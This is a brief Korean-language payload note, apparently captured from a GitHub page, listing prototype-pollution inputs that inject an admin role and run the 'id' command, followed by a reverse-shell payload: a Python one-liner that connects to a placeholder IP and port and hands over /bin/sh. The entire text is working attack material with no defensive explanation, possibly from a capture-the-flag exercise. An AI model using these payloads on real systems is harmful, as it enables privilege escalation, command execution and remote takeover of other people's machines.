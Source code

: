 id 명령어 실행

`<__proto__><exec>id</exec></__proto__>`
`<__proto__><role>admin</role><exec>id</exec></__proto__>`


리버스 쉘
```
<role>admin</role>
<command>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</command>
```
